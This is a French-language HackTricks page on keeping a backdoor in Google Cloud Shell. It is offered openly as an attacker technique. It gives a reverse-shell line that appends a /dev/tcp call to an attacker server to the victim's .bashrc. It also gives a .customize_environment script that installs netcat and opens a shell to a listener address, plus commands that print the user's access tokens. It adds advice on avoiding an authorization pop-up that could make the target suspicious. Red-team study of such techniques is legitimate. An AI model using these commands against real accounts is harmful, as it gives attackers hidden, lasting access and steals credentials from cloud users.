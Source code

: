 # GCP - Persistance du Cloud Shell

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-moi** sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux dépôts** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* &#x20;github repos.

</details>

## Cloud Shell

Pour plus d'informations, consultez :

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Backdoor Persistante

[**Google Cloud Shell**](https://cloud.google.com/shell/) vous offre un accès en ligne de commande à vos ressources cloud directement depuis votre navigateur sans aucun coût associé.

Vous pouvez accéder au Cloud Shell de Google depuis la **console web** ou en exécutant **`gcloud cloud-shell ssh`**.

Cette console a des capacités intéressantes pour les attaquants :

1. **Tout utilisateur Google ayant accès à Google Cloud** a accès à une instance Cloud Shell entièrement authentifiée (les comptes de service peuvent, même en étant propriétaires de l'organisation).
2. Cette instance **conservera son répertoire personnel pendant au moins 120 jours** si aucune activité n'est détectée.
3. Il n'y a **aucune capacité pour une organisation de surveiller** l'activité de cette instance.

Cela signifie essentiellement qu'un attaquant peut placer une backdoor dans le répertoire personnel de l'utilisateur et tant que l'utilisateur se connecte au GC Shell tous les 120 jours au moins, la backdoor survivra et l'attaquant obtiendra un shell à chaque fois qu'il sera exécuté, simplement en faisant :

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
```markdown
Il y a un autre fichier dans le dossier personnel appelé **`.customize_environment`** qui, s'il existe, sera **exécuté à chaque fois** que l'utilisateur accède au **cloud shell** (comme dans la technique précédente). Insérez simplement le backdoor précédent ou un similaire comme le suivant pour maintenir la persistance tant que l'utilisateur utilise "fréquemment" le cloud shell :
```
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Notez que **la première fois qu'une action GCP est effectuée dans Cloud Shell nécessitant une authentification**, elle **déclenche** une fenêtre d'autorisation dans le navigateur de l'utilisateur qui doit être acceptée avant que la commande ne s'exécute. Si un pop-up inattendu apparaît, la cible pourrait devenir méfiante et compromettre la méthode de persistance.

Voici le pop-up qui apparaît en exécutant `gcloud projects list` depuis le cloud shell (en tant qu'attaquant) vu dans la session du navigateur de l'utilisateur.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Cependant, si l'utilisateur a activement utilisé le cloudshell, le pop-up n'apparaîtra pas et vous pourrez **récupérer les tokens de l'utilisateur avec** :
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Comment la connexion SSH est établie

En gros, ces 3 appels API sont utilisés :

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (vous permet d'ajouter votre clé publique que vous avez créée localement)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (vous permet de démarrer l'instance)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (vous indique l'IP de la Google Cloud Shell)

Mais vous pouvez trouver plus d'informations sur [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Références

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> !</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
* &#x20;github repos.

</details>
